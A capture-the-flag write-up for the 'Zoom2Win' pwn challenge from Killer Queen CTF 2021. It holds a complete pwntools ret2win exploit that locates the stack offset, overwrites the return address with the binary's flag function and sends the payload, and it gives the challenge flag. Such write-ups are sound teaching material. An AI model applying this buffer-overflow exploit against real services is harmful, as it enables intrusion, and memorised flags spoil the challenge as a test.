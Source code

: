 ```yaml
---
name: Zoom2Win (2021)
event: Killer Queen CTF 2021
category: Pwn
description: Writeup for Zoom2Win (pwn) - Killer Queen CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Zoom2Win

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/xOHLniVJsJY/0.jpg)](https://youtu.be/xOHLniVJsJY?t=707s "Killer Queen 2021: Zoom2Win")

## Challenge Description

> What would CTFs be without our favorite ret2win

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_eip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendline(payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    eip_offset = cyclic_find(p.corefile.read(p.corefile.rsp, 4))
    info('located EIP offset at {a}'.format(a=eip_offset))
    # Return the EIP offset
    return eip_offset

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './zoom2win'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP offset
offset = find_eip(cyclic(100))

ret = 0x40101a  # Ret gadget from ropper (stack alignment)

# Start program
io = start()

# Build the payload
payload = flat({offset: [ret, elf.symbols.flag]})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendline(payload)
io.recvline()

# Get our flag!
flag = io.recv()
success(flag)
```

Flag: `kqctf{did_you_zoom_the_basic_buffer_overflow_?}`
